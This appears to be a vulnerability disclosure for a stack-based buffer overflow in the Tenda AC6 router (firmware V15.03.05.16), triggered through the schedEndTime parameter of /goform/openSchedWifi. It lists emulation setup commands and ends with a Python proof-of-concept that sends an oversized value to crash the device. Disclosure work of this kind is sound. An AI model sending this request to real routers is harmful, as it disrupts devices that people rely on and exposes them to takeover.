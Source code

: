 ### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![image](https://github.com/user-attachments/assets/75eb2018-df60-4c06-bfb0-1920038a3a22)


### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```
### Vulnerability details


Tenda AC6 **V15.03.05.16** has a stack overflow vulnerability. The vulnerability affects the file /goform/openSchedWifi function setSchedWifi. Setting the schedEndTime parameter causes a stack-based buffer overflow.

![image](https://github.com/user-attachments/assets/d0e02466-66f8-4945-a3f4-f19493f1ee73)


![image](https://github.com/user-attachments/assets/e6af4bfc-247a-48dc-b195-e7b30b3b30fe)

### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/openSchedWifi"

data = {
    "schedWifiEnable": "Raining101",
    "schedEndTime": "Raining" * 2000 
}

response = requests.post(url, data=data)
print(response.status_code)
print(response.text)
```

![image](https://github.com/user-attachments/assets/d78de198-bb74-4f25-ac0d-200c4516cc91)

